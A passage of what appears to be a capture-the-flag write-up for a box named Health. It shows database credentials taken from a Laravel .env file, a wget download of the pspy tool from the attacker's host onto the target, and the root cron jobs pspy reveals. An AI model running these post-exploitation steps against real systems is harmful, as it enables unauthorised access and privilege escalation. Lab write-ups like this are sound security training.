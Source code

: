 

The `.env` file has the creds for the database:



    DB_CONNECTION=mysql
    DB_HOST=127.0.0.1
    DB_PORT=3306
    DB_DATABASE=laravel
    DB_USERNAME=laravel
    DB_PASSWORD=MYsql_strongestpass@2014+



#### Crons

I'll start a Python webserver hosting
[pspy](https://github.com/DominicBreuker/pspy), and upload it to Health:



    susanne@health:/dev/shm$ wget 10.10.14.6/pspy64
    --2023-01-06 22:49:17--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: ‘pspy64’

    pspy64                100%[=========================>]   2.94M  2.21MB/s    in 1.3s    

    2023-01-06 22:49:18 (2.21 MB/s) - ‘pspy64’ saved [3078592/3078592]



I'll make it executable, and run it. After showing the running
processes, I'll look for processes starting around the new minute. There
are several running every minute:



    2023/01/06 22:51:01 CMD: UID=0    PID=4920   | /bin/bash -c sleep 5 && /root/meta/clean.sh 
    2023/01/06 22:51:01 CMD: UID=0    PID=4919   | /bin/bash -c cd /var/www.md && php artisan schedule:run >> /dev/null 2>&1 
    2023/01/06 22:51:01 CMD: UID=0    PID=4918   | /usr/sbin/CRON -f 
    2023/01/06 22:51:01 CMD: UID=0    PID=4917   | /usr/sbin/CRON -f 
    2023/01/06 22:51:01 CMD: UID=0    PID=4921   | sleep 5 
    2023/01/06 22:51:01 CMD: UID=0    PID=4922   | /bin/bash -c cd /var/www.md && php artisan schedule:run >> /dev/null 2>&1 
    2023/01/06 22:51:01 CMD: UID=0    PID=4925   | grep columns 
    2023/01/06 22:51:01 CMD: UID=0    PID=4923   | sh -c stty -a | grep columns 
    2023/01/06 22:51:01 CMD: UID=0    PID=4926   | php artisan schedule:run 
    2023/01/06 22:51:01 CMD: UID=0    PID=4928   | grep columns 
    2023/01/06 22:51:06 CMD: UID=0    PID=4929   | mysql laravel --execute TRUNCATE tasks



`artisan` is a utility used to interact with Laravel applications. It
seems like root is running these `php artisan schedule:run` tasks.

### Web Source Review

